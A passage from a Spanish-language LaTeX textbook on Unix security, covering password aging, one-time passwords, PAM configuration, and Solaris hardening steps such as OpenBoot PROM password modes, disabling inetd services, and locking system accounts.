Valor (semanas) & 1 & 2 & 3 & 4 & 5 & 6 & 7 & 8 & 9 & 10 & 11 & 12 & 13 & 14 & 15 \\
\hline
Car\'acter & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R\\ 
\hline
Valor (semanas) & 16 & 17 & 18 & 19 & 20 & 21 & 21 & 22 & 23 & 24 & 25 & 26 & 27 & 28 & 29\\ 
\hline
Car\'acter & S & T & U & V & W & X & Y & Z & a & b & c & d & e & f & g\\
\hline
Valor (semanas) & 30 & 31 & 32 & 33 & 34 & 35 & 36 & 37 & 38 & 39 & 40 & 41 & 42 & 43 & 44\\ 
\hline
Car\'acter & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v\\
\hline
Valor (semanas) & 45 & 46 & 47 & 48 & 49 & 50 & 51 & 52 & 53 & 54 & 55 & 56 & 57 & 58 & 59\\
\hline
Car\'acter & w & x & y & z &&&&&&&&&&&\\
\hline
Valor (semanas) & 60 & 61 & 62 & 63 &&&&&&&&&&&\\
\hline
\end{tabular}
\end{center}
\caption{C\'odigos de caracteres para el envejecimiento de contrase\~nas.}
\label{agingcodes}
\end{table}
En este caso el primer car\'acter tras la coma es el n\'umero m\'aximo de 
semanas antes de que el {\it password} expire; el siguiente car\'acter es el 
n\'umero m\'{\i}nimo de semanas antes de que el usuario pueda cambiar su clave,
y el tercer y cuarto car\'acter indican el tiempo transcurrido desde el 1 de
enero de 1970 hasta el \'ultimo cambio de contrase\~na. Todos estos tiempos
se indican mediante determinados caracteres con un significado especial, 
mostrados en la tabla \ref{agingcodes}. Tambi\'en se contemplan en este esquema
tres casos especiales: si los dos primeros caracteres son {\tt `..'} el usuario
ser\'a obligado a cambiar su clave la siguiente vez que conecte al sistema; el
programa {\tt passwd} modificar\'a entonces su entrada en el archivo para que
el usuario no se vuelva a ver afectado por el envejecimiento. Otro caso especial
ocurre cuando los dos \'ultimos caracteres tambi\'en son {\tt `..'}, situaci\'on
en la cual el usuario igualmente se ver\'a obligado a cambiar su clave la
pr\'oxima vez que conecte al sistema pero el envejecimiento seguir\'a definido
por los dos primeros caracteres. Por \'ultimo, si el primer car\'acter tras la
coma es menor que el siguiente, el usuario no puede cambiar su {\it password}
nunca, y s\'olo puede ser modificado a trav\'es de la cuenta {\it root}.
\subsubsection{Claves de un solo uso}
El envejecimiento de contrase\~nas tiene dos casos extremos. Por un lado, 
tenemos el esquema cl\'asico: una clave es v\'alida hasta que el usuario 
voluntariamente decida cambiarla (es decir, no hay caducidad de 
la contrase\~na). El extremo contrario del {\it Aging Password} es otorgar un 
tiempo de vida m\'{\i}nimo a cada clave, de forma que s\'olo sirva para una 
conexi\'on: es lo que se denomina clave de un solo uso, {\it One Time Password} 
(\cite{kn:lam81}).\\
\\>C\'omo utilizar contrase\~nas de un s\'olo uso? Para conseguirlo existen
diferentes aproximaciones; la m\'as simplista consiste en asignar al usuario
una lista en papel con la secuencia de claves a utilizar, de forma que cada
vez que \'este conecte al sistema elimina de la lista la contrase\~na que acaba 
de utilizar. Por su parte, el sistema avanza en su registro para que la
pr\'oxima vez que el usuario conecte pueda utilizar la siguiente clave. Otra
aproximaci\'on consiste en utilizar un peque\~no dispositivo que el usuario 
debe llevar consigo, como una tarjeta o una calculadora especial, de forma que
cuando desee conectar el sistema le indicar\'a una secuencia de caracteres a
teclear en tal dispositivo; el resultado obtenido ser\'a lo que se ha de 
utilizar como {\it password}. Para incrementar la seguridad ante un robo de la
tarjeta, antes de teclear el n\'umero recibido desde la m\'aquina suele ser
necesario utilizar un P.I.N. que el usuario debe mantener en secreto 
(\cite{kn:spa96}).\\
\\Una de las implementaciones del {\it One Time Password} m\'as extendida entre
los diferentes clones de Unix es {\sc s/key} (\cite{kn:hal94}), disponible 
tambi\'en para clientes Windows y MacOS. Utilizando este {\it software}, la
clave de los usuarios no viaja nunca por la red, ni siquiera al ejecutar 
\'ordenes como {\tt su} o {\tt passwd}, ni tampoco se almacena informaci\'on
comprometedora (como las claves en claro) en la m\'aquina servidora. Cuando el
cliente desea conectar contra un sistema genera una contrase\~na de un solo
uso, que se verifica en el servidor; en ambas tareas se utilizan las funciones
resumen {\sc md4} (\cite{kn:riv90}) o {\sc md5} (\cite{kn:riv92}). Para realizar
la autenticaci\'on, la m\'aquina servidora guarda una copia del {\it password}
que recibe del cliente y le aplica la funci\'on resumen; si el resultado no
coincide con la copia guardada en el fichero de contrase\~nas, se deniega el
acceso. Si por el contrario la verificaci\'on es correcta se actualiza la 
entrada del usuario en el archivo de claves con el {\it one time password} que
se ha recibido (antes de aplicarle la funci\'on), avanzando as\'{\i} en la
secuencia de contrase\~nas. Este avance decrementa en uno el n\'umero de 
iteraciones de la funci\'on ejecutadas, por lo que ha de llegar un momento 
en el que el usuario debe reiniciar el contador o en caso contrario se le
negar\'a el acceso al sistema; para ello ejecuta una versi\'on modificada de 
la orden {\tt passwd}.
\subsubsection{Otros m\'etodos}
Algo por lo que se ha criticado el esquema de autenticaci\'on de usuarios de
Unix es la longitud -- para prop\'ositos de alta seguridad, demasiado corta --
de sus claves; lo que hace a\~nos era poco m\'as que un planteamiento 
te\'orico (\cite{kn:dif77}), actualmente es algo factible: sin ni siquiera 
entrar en temas de {\it hardware} dedicado, seguramente demasiado caro para la
mayor\'{\i}a de atacantes, con un supercomputador es posible romper claves de 
Unix en menos de dos d\'{\i}as (\cite{kn:ked99}).\\
\\Un m\'etodo que aumenta la seguridad de nuestras claves frente a 
ataques de intrusos es el cifrado mediante la funci\'on conocida como {\tt 
bigcrypt()} o {\tt crypt16()}, que permite longitudes para las claves y los 
{\it salts} m\'as largas que {\tt crypt(3)}; sin embargo, aunque se aumenta
la seguridad de las claves, el problema que se presenta aqu\'{\i} es la 
incompatibilidad con las claves del resto de Unices que sigan utilizando {\tt 
crypt(3)}; este es un problema com\'un con otras aproximaciones 
(\cite{kn:man96}, \cite{kn:ked99}\ldots) que tambi\'en se basan en modificar el
algoritmo de cifrado, cuando no en utilizar uno nuevo.
\section{PAM}
PAM ({\it Pluggable Authentication Module}) no es un modelo de autenticaci\'on 
en s\'{\i}, sino que se trata de un mecanismo que proporciona una interfaz
entre las aplicaciones de usuario y diferentes m\'etodos de autenticaci\'on, 
trantado de esta forma de solucionar uno de los problemas cl\'asicos de la 
autenticaci\'on de usuarios: el hecho de que una vez que se ha definido e 
implantado cierto mecanismo en un entorno, es dif\'{\i}cil cambiarlo. Mediante
PAM podemos comunicar a nuestra aplicaciones con los m\'etodos de 
autenticaci\'on que deseemos de una forma transparente, lo que permite integrar 
las utilidades de un sistema Unix cl\'asico ({\tt login}, {\tt ftp}, {\tt 
telnet}\ldots) con esquemas diferentes del habitual {\it password}: claves de 
un solo uso, biom\'etricos, tarjetas inteligentes\ldots\\
\\PAM viene `de serie' en diferentes sistemas Unix, tanto libres como 
comerciales (Solaris, FreeBSD, casi todas las distribuciones de Linux\ldots), y
el nivel de abstracci\'on que proporciona permite cosas tan interesantes como
{\it kerberizar} nuestra autenticaci\'on (al menos la parte servidora) sin m\'as
que cambiar la configuraci\'on de PAM, que se encuentra bien en el fichero {\tt 
/etc/pam.conf} o bien en diferentes archivos dentro del directorio {\tt 
/etc/pam.d/}; en el primero de los dos casos, por ejemplo en Solaris, el 
fichero de configuraci\'on de PAM est\'a formado por l\'{\i}neas de la 
siguiente forma:
\begin{quote}
servicio    tipo    control    ruta$\_$m\'odulo    argumentos$\_$m\'odulo
\end{quote}
El campo {\tt `servicio'} indica obviamente el nombre del servicio sobre el
que se va a aplicar la autenticaci\'on ({\tt ftp}, {\tt telnet}, {\tt dtlogin},
{\tt passwd}\ldots), y el campo {\tt `tipo'} define el tipo de servicio sobre
el que se aplica el m\'odulo; PAM define cuatro posibles valores para este 
campo (\cite{kn:her00}):
\begin{itemize}
\item {\tt account}\\
Determina si el usuario est\'a autorizado a acceder al servicio indicado, por
ejemplo si su clave ha caducado, si el acceso se produce desde una l\'{\i}nea
determinada o si se supera el n\'umero m\'aximo de conexiones simult\'aneas.
\item {\tt auth}\\
Determina si el usuario es autenticado correctamente, por ejemplo mediante una
clave cl\'asica de Unix o mediante un m\'etodo biom\'etrico.
\item {\tt password}\\
Proporciona mecanismos para que el usuario actualice su elemento de 
autenticaci\'on, por ejemplo para cambiar su contrase\~na de acceso al sistema.
\item {\tt session}\\
Define procesos a ejecutar antes o despu\'es de autenticar al usuario, como
registrar el evento o activar un mecanismo de monitorizaci\'on concreto.
\end{itemize}
Por su parte, el campo al que hemos etiquetado como {\tt `control'} marca qu\'e
hacer ante el \'exito o el fracaso del m\'odulo al que afecten; los m\'odulos
PAM son apilables, esto es, podemos combinar un n\'umero indeterminado de ellos
(del mismo tipo) para un \'unico servicio de forma que si uno de ellos falla
la autenticaci\'on es incorrecta, si uno de ellos es correcto no nos preocupamos
del resto, si algunos son necesarios pero otros no para una correcta 
autenticaci\'on, etc. Se definen cuatro tipos de control:
\begin{itemize}
\item {\tt required}\\
El resultado del m\'odulo ha de ser exitoso para que se proporcione acceso al
servicio; si falla, el resto de m\'odulos de la pila se ejecutan, pero sin
importar su resultado el acceso ser\'a denegado.
\item {\tt requisite}\\
De nuevo, el resultado del m\'odulo ha de ser exitoso para que se proporcione 
acceso al servicio; en caso contrario, no se ejecutan m\'as m\'odulos y el 
acceso se deniega inmediatamente. 
\item {\tt sufficient}\\
Si la ejecuci\'on el m\'odulo correspondiente tiene \'exito el acceso se 
permite inmediatamente (sin ejecutar el resto de m\'odulos para el mismo
servicio) siempre y cuando no haya fallado antes un m\'odulo cuyo tipo de 
control sea {\tt `required'}; si la ejecuci\'on es incorrecta, no se implica 
necesariamente una negaci\'on de acceso. 
\item {\tt optional}\\
El resultado de su ejecuci\'on no es cr\'{\i}tico para determinar el acceso al
servicio requerido: si falla, pero otro m\'odulo del mismo tipo para el servicio
es exitoso, se permite el acceso. S\'olo es significativo si se trata del
\'unico m\'odulo de su tipo para un cierto servicio, en cuyo caso el acceso al
servicio se permite o deniega en funci\'on de si la ejecuci\'on del m\'odulo
tiene \'exito.
\end{itemize}
Finalmente, el campo {\tt `ruta$\_$modulo'} marca el nombre del m\'odulo o la 
ruta donde est\'a \'ubicado el fichero, mientras que {\tt `argumentos$\_$modulo}
define los argumentos que se le han de pasar cuando se invoca; este \'ultimo
es el \'unico campo opcional del fichero.\\
\\En el caso de que la configuraci\'on de PAM se distribuya en diferentes 
ficheros dentro del directorio {\tt /etc/pam.d/} (generalmente implementaciones
m\'as modernas, como las de Linux), el nombre de cada fichero marca el servicio
al que afecta la autenticaci\'on (es decir, encontraremos un archivo llamado
{\tt `telnet'}, otro llamado {\tt `ftp'}, etc.), de forma que las l\'{\i}neas 
de cada fichero \'unicamente tienen los cuatro \'ultimos campos de los 
comentados aqu\'{\i}.\\
\\Veamos un ejemplo: la autenticaci\'on definida para el servicio {\tt `login'} 
en un sistema Solaris; el fichero {\tt /etc/pam.conf} contendr\'a l\'{\i}neas 
como las siguientes:
\begin{quote}
\begin{verbatim}
anita:/# grep ^login /etc/pam.conf
login   auth required   /usr/lib/security/$ISA/pam_unix.so.1 
login   auth required   /usr/lib/security/$ISA/pam_dial_auth.so.1 
login   account requisite       /usr/lib/security/$ISA/pam_roles.so.1 
login   account required        /usr/lib/security/$ISA/pam_unix.so.1 
anita:/# 
\end{verbatim}
\end{quote}
La primera l\'{\i}nea indica que cuando un usuario desee autenticarse contra
el servicio de {\tt `login'}, ha de ejecutar correctamente el m\'odulo {\tt
pam$\_$unix}, el principal de Solaris, que proporciona funcionalidad para
los cuatro tipos de servicio de los que hemos hablado; como en este caso el
tipo es {\tt `auth'}, lo que hace el m\'odulo es comparar la clave introducida
por el usuario con la que existe en el archivo de contrase\~nas de la m\'aquina,
autentic\'andolo si coinciden. Evidentemente, el control es de tipo {\tt 
`required'}, lo que viene a decir que el {\it password} tecleado ha de ser el
correcto para poder autenticarse contra el sistema; algo parecido sucede con la
segunda l\'{\i}nea, que invoca al m\'odulo {\tt pam$\_$dial$\_$auth},
encargado de validar la l\'{\i}nea de conexi\'on y las claves de {\it dialup}
en Solaris, si los archivos {\tt /etc/dialups} y {\tt /etc/d$\_$passwd} existen.
Si cualquiera de los m\'odulos devolviera un c\'odigo de ejecuci\'on 
incorrecta, el acceso al servicio de {\tt login} -- el acceso a la m\'aquina --
se denegar\'{\i}a.\\
\\Las dos l\'{\i}neas siguientes se utilizan para la gesti\'on de las claves
de usuario, tambi\'en para el control de acceso al servicio {\tt `login'}; el
m\'odulo {\tt pam$\_$roles} comprueba que el usuario que ejecuta el proceso
est\'a autorizado a asumir el rol del usuario que quiere autenticarse, mientras 
que {\tt pam$\_$unix}, del que ya hemos hablado, lo que hace ahora que el tipo 
de servicio es {\tt `account'} es simplemente verificar que el {\it password} 
del usuario no ha caducado. El tipo de control en el primer caso es {\tt 
`requisite'}, lo que implica que si el m\'odulo falla directamente se niega el
acceso y no se ejecuta el m\'odulo {\tt pam$\_$unix}; si el primero no falla,
s\'{\i} que se ejecuta este \'ultimo, y su resultado ha de ser correcto para
permitir el acceso (algo por otra parte evidente).\\
\\La arquitectura PAM ha venido a solucionar diferentes problemas hist\'oricos
de la autenticaci\'on de usuarios en entornos Unix -- especialmente en entornos
complejos, como sistemas distribuidos o reinos Kerberos; proporciona una
independencia entre los servicios del sistema y los mecanismos de 
autenticaci\'on utilizados, beneficiando tanto al usuario como a los 
administradores Unix. Desde 1995, a\~no en que se adopt\'o la soluci\'on 
propuesta por Sun Microsystems hasta la actualidad, cada vez m\'as plataformas 
integran PAM por defecto, con lo que se ha convertido en el est\'andar {\it 
de facto} en la autenticaci\'on dentro de entornos Unix.

\cleardoublepage
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Algunos sistemas Unix
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Algunos sistemas Unix}

\cleardoublepage
\chapter{Solaris}
\section{Introducci\'on}
Solaris es el nombre del actual entorno de trabajo Unix desarrollado por Sun 
Microsystems; con anterioridad esta compa\~n\'{\i}a ofrec\'{\i}a SunOS, un
sistema basado en {\sc bsd}, pero a partir de su versi\'on 5 el sistema fu\'e
completamente revisado, adopt\'o el modelo {\it System V} y se pas\'o a 
denominar Solaris, que es como se conoce 
actualmente\footnote{Realmente, existi\'o un entorno llamado Solaris 1.x, que 
no era m\'as que alguna versi\'on de SunOS 4 acompa\~nada de OpenWindows 3.0 
(\cite{kn:dik99}).}. Hasta la versi\'on 6, el producto era conocido como {\it
`Solaris 2.x'} -- equivalentemente, {\it `SunOS 5.x'} --, pero desde su 
versi\'on 7 se elimin\'o el `2.x' y simplemente se pas\'o a llamar {\it 
`Solaris x'}, aunque se sigue manteniendo el nombre {\it `SunOS 5.x'}; en la
actualidad, Sun Microsystems ofrece Solaris 8, y se espera que en 2001 aparezca
en el mercado Solaris 9.\\
\\Solaris es uno de los Unix m\'as extendidos hoy en d\'{\i}a, ya que sus
posibilidades comprenden un abanico muy amplio; aunque funciona sobre 
arquitecturas x86 (lo que permite que cualquiera pueda instalar y utilizar el 
operativo en un PC casero), el principal mercado de Solaris est\'a en las 
estaciones y los servidores {\sc sparc} ({\it Scalable Processor ARChitecture}).
Dentro de esta familia de procesadores podemos encontrar todo tipo de 
m\'aquinas, desde estaciones que pueden ser equivalentes en potencia a un PC
(como la Ultra{\sc sparc} 5) a grandes servidores (por ejemplo, los Ultra 
Enterprise 10000), 
pasando por supuesto por servidores medios, como los Ultra Enterprise 3500;
esta amplia gama de m\'aquinas hace que Solaris se utilice en todo tipo de 
aplicaciones, desde equipos de sobremesa o servidores {\it web} sencillos hasta 
sistemas de bases de datos de alta disponibilidad. Su uso como plataforma de 
aplicaciones relacionadas con la seguridad (t\'{\i}picamente, sistemas 
cortafuegos funcionando con {\it Firewall--1}) tambi\'en est\'a muy extendido.\\
\\Para conocer m\'as el entorno de trabajo Solaris podemos descargar las 
im\'agenes del operativo, tanto para arquitecturas {\sc sparc} como para x86, y
de forma completamente gratuita,
desde la {\it web} corporativa de Sun Microsystems: {\tt http://www.sun.com/}.
Tambi\'en podemos obtener documentaci\'on de casi cualquier tema relacionado 
con Solaris en la direcci\'on {\tt http://docs.sun.com/}, o consultar los
{\it BluePrints} que la compa\~n\'{\i}a publica peri\'odicamente en {\tt 
http://www.sun.com/blueprints/}. Existen adem\'as numerosas publicaciones
relacionadas con diversos aspectos de Solaris: por ejemplo, de su seguridad se 
habla en \cite{kn:gre99}, y de su dise\~no interno en \cite{kn:mau00}; sus
aspectos gen\'ericos de uso o administraci\'on se pueden consultar en cualquier 
libro de Unix, aunque en muchas ocasiones uno se pregunta si vale la pena 
realmente comprar algunos libros cuando en Internet tenemos a nuestra 
disposici\'on cientos y cientos de hojas de magn\'{\i}fica documentaci\'on sobre
Solaris.\\
\\Tal y como se instala por defecto, Solaris -- como la mayor\'{\i}a de
operativos -- no es un sistema especialmente seguro; es necesario dedicar un
m\'{\i}nimo de tiempo a retocar y personalizar algunos aspectos de su
configuraci\'on: tras estos peque\~nos detalles, un servidor puede pasar a
trabajar directamente en explotaci\'on con un nivel de seguridad m\'as que
aceptable. En este cap\'{\i}tulo vamos a hablar de aspectos de configuraci\'on,
de {\it software}, de procedimientos de trabajo\ldots aplicables en Solaris; 
aunque evidentemente los aspectos de los que hemos venido hablando durante todo
el trabajo se pueden -- y deben -- aplicar en este sistema operativo, aqu\'{\i}
entraremos algo m\'as a fondo en algunos aspectos particulares de Solaris.
\section{Seguridad f\'{\i}sica en SPARC}
Los mecanismos de seguridad de m\'as bajo nivel que ofrece Solaris sobre 
estaciones y servidores {\sc sparc} son los que estos implantan en su {\sc 
eeprom}, una memoria RAM no vol\'atil ({\it NVRAM, Non--volatile RAM}) a la que 
se puede acceder pulsando las teclas {\it `Stop--A'} (teclados Sun) o {\it 
`Ctrl--Break'} 
(terminales serie). Esta memoria, tambi\'en denominada {\it OpenBoot PROM} o 
simplemente {\sc obp} es en muchos aspectos similar a la {\sc bios} de un 
simple PC, pero mucho m\'as potente y flexible; sus funciones son verificar el 
estado del {\it hardware} e inicializarlo (ofreciendo para ello una amplica 
gama de herramientas empotradas), y por supuesto arrancar el sistema 
operativo.\\
\\Como antes hemos dicho, cualquiera con acceso f\'{\i}sico a una m\'aquina
{\sc sparc} puede interactuar con su {\sc nvram} sin m\'as que pulsar la 
combinaci\'on de teclas {\it `Stop--A'}; sin importar el estado en que se 
encuentre el sistema, autom\'aticamente se detendr\'an todos los procesos en 
ejecuci\'on y se mostrar\'a en consola el {\it prompt} {\tt `ok '}, que indica
que podemos comenzar a teclear \'ordenes de la {\sc obp}. La m\'aquina no pierde
en ning\'un momento su estado a no ser que expl\'{\i}citamente la detengamos:
al salir de la {\sc obp} podemos continuar la ejecuci\'on de todos los procesos
que ten\'{\i}amos al entrar, desde el mismo punto en que los detuvimos y con
el mismo entorno que pose\'{\i}an, pero mientras estemos interactuando con la 
{\sc eeprom} ning\'un proceso avanzar\'a en su ejecuci\'on.\\
\\Al interactuar con la {\sc eeprom}, cualquier persona\footnote{Recordemos, con
acceso f\'{\i}sico a la m\'aquina.} puede interrumpir al operativo y 
rearrancarlo desde un disco, un CD--ROM, o un sistema remoto, lo que 
evidentemente le proporciona un control total sobre el sistema; podemos 
deshabilitar la funci\'on de las teclas {\it `Stop--A'} mediante la directiva 
del {\it kernel} {\tt `abort$\_$enable'} en el fichero {\tt /etc/system}, 
o -- lo que suele ser m\'as \'util -- proteger mediante contrase\~na el reinicio
de una m\'aquina desde su memoria {\sc nvram}. Para ello, las m\'aquinas {\sc 
sparc} ofrecen tres
niveles de seguridad: {\tt `none-secure'}, {\tt `command-secure'}, y {\tt 
`full-secure'}. El primero de ellos, {\tt `none-secure'} es el que est\'a
habilitado por defecto, y como su nombre indica no ofrece ning\'un tipo de 
seguridad: cualquiera que pulse {\it `Stop--A'} desde la consola del 
sistema\footnote{Si no se ha deshabilitado en {\tt /etc/system}.}
obtiene un acceso total a la {\sc eeprom} sin necesidad de conocer ning\'un
tipo de contrase\~na y puede reiniciar la m\'aquina de la forma que le plazca.\\
\\Los dos modos siguientes son los que ofrecen un nivel de seguridad algo
superior; si activamos {\tt `command-secure'} ser\'a necesaria una clave para
reiniciar el sistema de cualquier dispositivo que no sea el utilizado por 
defecto (que generalmente ser\'a el disco, {\tt disk}), y si elegimos {\tt
`full-secure'} la contrase\~na es obligatoria independientemente del 
dispositivo elegido para arrancar. En cualquier caso, esta clave es diferente 
de la utilizada para acceder a Solaris como superusuario; si olvidamos la 
contrase\~na de la {\sc eeprom} pero tenemos acceso {\it root} a la m\'aquina
podemos usar desde l\'{\i}nea de \'ordenes el comando {\tt `eeprom'} para 
modificar (o consultar) cualquier par\'ametro de la {\sc nvram}, {\it 
passwords} incluidos. Si
hemos perdido la contrase\~na de la {\sc eeprom} y no podemos arrancar la 
m\'aquina, es muy posible que necesitemos sustituir nuestra memoria {\sc nvram}
por una nueva, por lo que hemos de tener cuidado con las claves que utilicemos
para proteger la {\sc obp}; por supuesto, si utilizamos el modo {\tt 
`full-secure'} podemos ir olvid\'andonos de reinicios programados del sistema
sin un operador que teclee el {\it password} en consola: la seguridad en muchas 
ocasiones no es del todo compatible con la comodidad o la funcionalidad.\\
\\Como hemos adelantado, para consultar o modificar el modo en el que se 
encuentra nuestra memoria {\sc nvram} podemos ejecutar la orden {\tt `eeprom'};
en nuestro caso queremos conocer el estado de la variable {\tt 
`security-mode'}, por lo que desde una l\'{\i}nea de comandos teclear\'{\i}amos
lo siguiente:
\begin{quote}
\begin{verbatim}
marta:/# eeprom security-mode
security-mode=none
marta:/# 
\end{verbatim}
\end{quote}
Podemos ver que en este caso nuestra m\'aquina no tiene habilitado ning\'un
tipo de seguridad; si quisi\'eramos habilitar el modo  {\tt `command-secure'},
ejecutar\'{\i}amos:
\begin{quote}
\begin{verbatim}
marta:/# eeprom security-mode
security-mode=none
marta:/# eeprom security-mode=command
Changing PROM password:
New password:
Retype new password:
marta:/# eeprom security-mode
security-mode=command
marta:/# 
\end{verbatim}
\end{quote}
Tambi\'en es posible realizar estos cambios desde el propio {\it prompt} de la
memoria {\sc nvram}, mediante la orden {\tt `setenv'}\footnote{Esta orden 
corresponde a la {\it OpenBoot PROM}; no hay que confundirla con el comando
del mismo nombre que poseen algunos {\it shells}.}:
\begin{quote}
\begin{verbatim}
ok setenv security-mode command
security-mode =       command
ok
\end{verbatim}
\end{quote}
A partir de este momento, cuando el sistema inicie desde un dispositivo que
no sea el utilizado por defecto, se solicitar\'a la clave que acabamos de 
teclear; de forma similar podr\'{\i}amos habilitar el modo {\tt `full-secure'}.
Para eliminar cualquier clave de nuestra memoria no tenemos m\'as que restaurar
el modo {\tt `none-secure'}, de la forma habitual:
\begin{quote}
\begin{verbatim}
marta:/# eeprom security-mode=none
marta:/# eeprom security-mode
security-mode=none
marta:/#
\end{verbatim}
\end{quote}
Si en los modos {\tt `command-secure'} o {\tt `full-secure'} queremos 
cambiar la contrase\~na de la {\sc nvram} podemos utilizar de nuevo la
orden {\tt `eeprom'}, esta vez con el par\'ametro {\tt `security-password'}:
\begin{quote}
\begin{verbatim}
marta:/# eeprom security-password=
Changing PROM password:
New password:
Retype new password:
marta:/# eeprom security-password
security-password= data not available.
marta:/# 
\end{verbatim}
\end{quote}
Como podemos ver, al consultar el valor de la variable, este {\bf nunca} se
muestra en pantalla.\\
\\El tercer y \'ultimo par\'ametro relacionado con la seguridad de la memoria 
{\sc eeprom} es {\tt \\`security-\#badlogins'}, que no es m\'as que un contador 
que indica el n\'umero de contrase\~nas incorrectas que el sistema ha recibido; 
podemos resetear su valor sencillamente asign\'andole `0'\footnote{En ciertas
versiones de SunOS -- no Solaris -- tambi\'en se pod\'{\i}a resetear este 
contador pas\'andole como par\'ametro {\tt `reset'}.}:
\begin{quote}
\begin{verbatim}
marta:/# eeprom security-#badlogins
security-#badlogins=4
marta:/# eeprom security-#badlogins=0
marta:/# eeprom security-#badlogins
security-#badlogins=0
marta:/# 
\end{verbatim}
\end{quote}
Antes de finalizar este punto quiz\'as sea necesario recordar que los 
par\'ametros de seguridad de la memoria {\sc eeprom} que acabamos de ver s\'olo
existen en m\'aquinas {\sc sparc}; aunque en la versi\'on de Solaris para
arquitecturas Intel tambi\'en existe una orden denominada {\tt `eeprom'} que nos
mostrar\'a los valores de ciertos par\'ametros si la ejecutamos, \'unicamente
se trata de una simulaci\'on llevada a cabo en un fichero de texto denominado
{\tt `bootenv.rc'}. Es posible dar valor a las variables que hemos visto, pero
no tienen ning\'un efecto en m\'aquinas Intel ya que estas se suelen proteger
en el arranque mediante contrase\~nas en la BIOS, como veremos al hablar de
Linux.
\section{Servicios de red}
Probablemente el primer aspecto relacionado con la seguridad al que debemos
prestar atenci\'on en un sistema Solaris es a los servicios ofrecidos
desde {\tt inetd}; con la instalaci\'on {\it out of the box} el n\'umero de
puertos a la escucha es realmente elevado, y muchos de ellos son servidos
desde {\tt inetd} (despu\'es hablaremos de los servicios que se inician al
arrancar el sistema). Aparte de los servicios cl\'asicos ({\tt telnet}, {\tt
finger}\ldots) que -- como en el resto de Unices -- es imprescindible 
deshabilitar, en Solaris encontramos algunas entradas de {\tt /etc/inetd.conf}
algo m\'as extra\~nas, que en muchos casos no sabemos si podemos eliminar (o
comentar) si que ello afecte al funcionamiento de la m\'aquina: se trata de
ciertos servicios basados en {\sc rpc}, como {\tt cmsd} o {\tt sprayd}. En
casi todos los servidores podemos deshabilitar estos servicios sin mayores
problemas, pero evidentemente tomando ciertas precauciones: es necesario conocer
cu\'al es la funci\'on y las implicaciones de seguridad de cada uno de ellos;
en \cite{kn:fly00b} (especialmente en la segunda parte del art\'{\i}culo) se 
puede encontrar una referencia r\'apida de la funci\'on de algunos de estos 
servicios `extra\~nos', as\'{\i} como notas con respecto a su seguridad.\\
\\Realmente, de todos
los servicios ofrecidos por {\tt inetd} {\bf ninguno} es estrictamente 
necesario, aunque por supuesto alguno de ellos nos puede resultar muy \'util:
lo normal es que al menos {\tt telnet} y {\tt ftp} se dejen abiertos para 
efectuar administraci\'on remota. No obstante, algo muy recomendable es 
sustituir ambos por {\sc ssh}, que permite tanto la terminal remota como la 
transferencia de archivos de forma cifrada; si nos limitamos a este servicio y
lo ofrecemos desde {\tt inetd}, esta ser\'a la \'unica entrada no comentada
en {\tt /etc/inetd.conf}:
\begin{quote}
\begin{verbatim}
anita:/# grep -v ^\# /etc/inetd.conf
ssh     stream  tcp     nowait  root    /usr/local/sbin/sshd    sshd -i
anita:/# 
\end{verbatim}
\end{quote}
Otros de los servicios que Solaris ofrece tras su instalaci\'on son servidos
por demonios in\-de\-pen\-dien\-tes que se lanzan en el arranque del sistema 
desde {\it scripts} situados en {\tt /etc/init.d/} y enlazados desde {\tt 
/etc/rc2.d/} y {\tt /etc/rc3.d/}; al igual que suced\'{\i}a con los servidos 
desde {\tt inetd}, muchos de estos servicios no son necesarios 
para un correcto funcionamiento del sistema, y algunos de ellos 
hist\'oricamente han presentado -- y siguen presentando -- graves problemas de 
seguridad. No vamos a entrar aqu\'{\i} en cu\'ales de estos servicios son
necesarios y cu\'ales no, ya que eso depende por completo del tipo de sistema
sobre el que estemos trabajando; es necesario conocer las implicaciones de
seguridad que algunos de los demonios lanzados en el arranque presentan, y para 
ello una buena introducci\'on es \cite{kn:fly00a}.\\
\\Al arrancar una m\'aquina Solaris, por defecto el proceso {\tt init} situa al
sistema en su {\it runlevel} 3, lo cual implica que -- entre otras acciones -- 
se invoca a {\tt /sbin/rc2} y {\tt /sbin/rc3}; estos dos {\it shellscripts} se
encargan de recorrer los directorios {\tt /etc/rc2.d/} y {\tt /etc/rc3.d/}, 
ejecutando cualquier fichero cuyo nombre comience por {\tt `S'}. De esta forma,
para evitar que un determinado {\it script} se ejecute autom\'aticamente al
arrancar una m\'aquina lo m\'as recomendable es ir directamente a {\tt 
/etc/rc2.d/} o {\tt /etc/rc3.d/} y sustituir la {\tt `S'} inicial de su nombre
por otro car\'acter; esta pr\'actica suele ser m\'as habitual que eliminar el
fichero directamente, ya que as\'{\i} conseguimos que si es necesario lanzar
de nuevo el {\it script} al arrancar Solaris no tengamos m\'as que cambiarle de
nuevo el nombre. Por ejemplo, si queremos que el demonio {\tt sendmail} no se 
lance en el arranque, no tenemos m\'as que ir al directorio correspondiente y
renombrar el {\it script} que lo invoca; aparte de eso, es probable que nos 
interese detenerlo en ese momento, sin esperar al pr\'oximo reinicio del 
sistema:
\begin{quote}
\begin{verbatim}
anita:/# cd /etc/rc2.d/
anita:/etc/rc2.d# mv S88sendmail disabled.S88sendmail
anita:/etc/rc2.d# ./disabled.S88sendmail stop
anita:/etc/rc2.d# 
\end{verbatim}
\end{quote}
Podemos ver que para detener el demonio hemos invocado al mismo fichero que
lo arranca, pero pas\'andole como par\'ametro {\tt `stop'}; si quisi\'eramos
relanzar {\tt sendmail}, no tendr\'{\i}amos m\'as que volver a ejecutar el
{\it script} pero pas\'andole como argumento {\tt `start'}.
\section{Usuarios y accesos al sistema}
Durante la instalaci\'on de Solaris se crean en {\tt /etc/passwd} una serie de
entradas correspondientes a usuarios considerados `del sistema' ({\tt adm}, {\tt
bin}, {\tt nobody}\ldots); {\bf ninguno} de estos usuarios tiene por qu\'e 
acceder a la m\'aquina, de forma que una buena pol\'{\i}tica es bloquear sus 
cuentas. Podemos comprobar qu\'e usuarios tienen el acceso bloqueado consultando
el estado de su contrase\~na: si es {\sc `lk'} ({\it locked}), la cuenta est\'a
bloqueada:
\begin{quote}
\begin{verbatim}
anita:/# passwd -s -a|grep LK
daemon  LK    
bin  LK    
sys  LK    
adm  LK    
lp  LK    
uucp  LK    
